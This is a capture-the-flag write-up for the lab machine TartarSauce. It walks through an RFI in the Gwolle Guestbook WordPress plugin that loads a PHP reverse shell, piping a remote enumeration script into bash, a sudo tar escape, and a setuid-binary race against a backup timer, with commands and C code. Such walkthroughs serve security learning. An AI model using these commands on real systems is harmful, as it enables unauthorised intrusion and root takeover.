 # TartarSauce

This is the write-up for the box TartarSauce that got retired at the 20th October 2018.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.88    tartarsauce.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tartarsauce.nmap 10.10.10.88
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
```

## Checking HTTP (Port 80)

On the web page is ASCII art of a TartarSauce bottle and nothing interesting in the HTML source code.
The initial Nmap scan found _robots.txt_ with 5 different directories:
- /webservices/tar/tar/source/
  - HTTP error code _404 Not Found_
- /webservices/monstra-3.0.4/
  - Blog page powered by **Monstra 3.0.4**, which is an open-source CMS
  - Login page on _/webservices/monstra-3.0.4/admin/_
- /webservices/easy-file-uploader/
  - HTTP error code _404 Not Found_
- /webservices/developmental/
  - HTTP error code _404 Not Found_
- /webservices/phpmyadmin/
  - HTTP error code _404 Not Found_

Only the **Monstra** directory responses back and when trying out some default credentials at the login page, the credentials _admin:admin_ work.
After analyzing the platform for a while, it seems like that it is not possible to modify any files nor upload anything to gain command execution.

Lets search for more hidden paths in _/webservices_ with **Gobuster**:
```markdown
gobuster -u http://10.10.10.88/webservices dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds one more directory called _/wp_ where it hosts a **WordPress** page, but it looks broken.
In the HTML source code, there is a mistake about the absolute URLs with wrong syntax:
```html
(...)
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Feed" href="http:/10.10.10.88/webservices/wp/index.php/feed/" />
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Comments Feed" href="http:/10.10.10.88/webservices/wp/index.php/comments/feed/" />
(...)
```

They are all missing a slash (/) character in _"http:/"_. To load the page correctly, it is possible to configure a local proxy like **Burpsuite** to replace this string with the correct syntax:

![Burpsuite match and replace](https://kyuu-ji.github.io/htb-write-up/tartarsauce/tartarsauce_web-1.png)

After refreshing the web page, it loads the scripts and looks better.
The tool **Wpscan** is practical, to scan WordPress pages, plugins, etc. for vulnerabilities:
```markdown
wpscan --url http://10.10.10.88/webservices/wp -e ap
```

It may find the plugin _Gwolle Guestbook <= 2.5.3_ and when searching for vulnerabilities with **Searchsploit**, it finds a **Remote File Inclusion** vulnerability:
```markdown
searchsploit gwolle

# Output
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
```

It works by sending a request to the following path:
```markdown
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Lets test this with our local client:
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/test
```

After sending the request, the listener on my IP and port 80 gets a connection from the box and the vulnerability appends _wp-load.php_ at the end of the request:
```markdown
Ncat: Connection from 10.10.10.88:42002.
GET /testwp-load.php HTTP/1.0
Host: 10.10.14.12
Connection: close
```

This means the RFI works and by sending PHP code, it is possible to get a reverse shell session on the box.
The reverse shell I will be using is _php-reverse-shell.php_ from the **Laudanum** scripts, but it has to be renamed to _wp-load.php_.
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/
```

After sending it, _wp-load.php_ gets appended to the request, downloads the PHP reverse shell and the listener on my IP and port 9001 starts a connection on the box as _www-data_.

## Privilege Escalation

To get an attack surface on the box, any **Linux Enumeration Script** should be run:
```markdown
curl 10.10.14.12/LinEnum.sh | bash
```

The sudo privileges of _www-data_ is allowing the execution of `tar` as the user _onuma_ without a password:
```markdown
sudo -l

# Output
(...)
User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Checking on [GTFOBins](https://gtfobins.github.io/) that `tar` can run system commands with `sudo` in the context of another user:
```markdown
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

This starts a bash session as _onuma_.

### Privilege Escalation to root

After executing the **Linux Enumeration Script** again as _onuma_, we find that there are running **Systemd timers**.
One of those is a non-default timer called _backuperer.timer_ that runs every five minutes.

Lets locate what it does:
```markdown
locate backuperer
```

It was found in _/usr/sbin/backuperer_ and is a bash script that does the following every five minutes:
1. Deletes created files in _/var/tmp_
2. `tar` _/var/www/html_ to _/var/tmp/$RANDOM_NAME_ in the background
3. `sleep` for 30 seconds
4. Extract created files and integrity check between _/var/www/html_ and _/var/tmp/check/var/www/html_ with `diff`
5. If integrity check is successful, exit with error exit code (2). Else, delete files and exit with successful exit code (0)

If a directory is not valid, it will fail and delete the files.
If all directories exist, it will exit out of the program and what we have to figure out now, is how to make the integrity check fail to get to that state.
To do that, we need to create an archive that has _/var/www/html_ in it and when its getting extracted, it adds the directories and the `diff` command becomes valid.

```markdown
cd /var/tmp
mkdir -p var/www/html
```

To get command execution we place a binary with the _setuid bit_ in there, because `tar` keeps the file permissions even after extracting.
So when it gets extracted, the binary will keep the _setuid bit_ and is executable as root.

I will compile this code that creates a binary with the correct file permission that runs _/bin/sh_:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
}   
```
```markdown
gcc -m32 -o shell exec.c
```

Moving _shell_ into local _var/www/html_ directory and `tar` up the directory:
```markdown
mkdir var/www/html
mv shell var/www/html
chmod 6555 var/www/html/shell
tar -zcvf shell.tar.gz var/
```

Uploading _shell.tar.gz_ to the directory _/var/tmp/var/www/html_ on the box:
```markdown
# On client
nc -lvnp 9002 < shell.tar.gz

# On the box
nc 10.10.14.12 9002 > shell.tar.gz
```

Now waiting until the _backuperer_ job runs. To follow the time, the `watch` command is useful:
```markdown
watch -n 1 'systemctl list-timers'
```

When it runs, it creates a hidden file with a random name in _/var/tmp/_ and we have to rename our _shell.tar.gz_ as the name of that new file:
```markdown
cp shell.tar.gz .7c1f2149bd7924dc3f98e0b04e64bbda5ecf85f0
```

This has to be done before the time hits the 30 seconds mark, because then it creates the folder _check_ in which the binary got extracted into that is now owned by root and has the setuid bit set. This is the binary created by us to execute now:
```markdown
cd /var/tmp/check/var/www/html

./shell
```

After executing _shell_ a shell session as root starts!
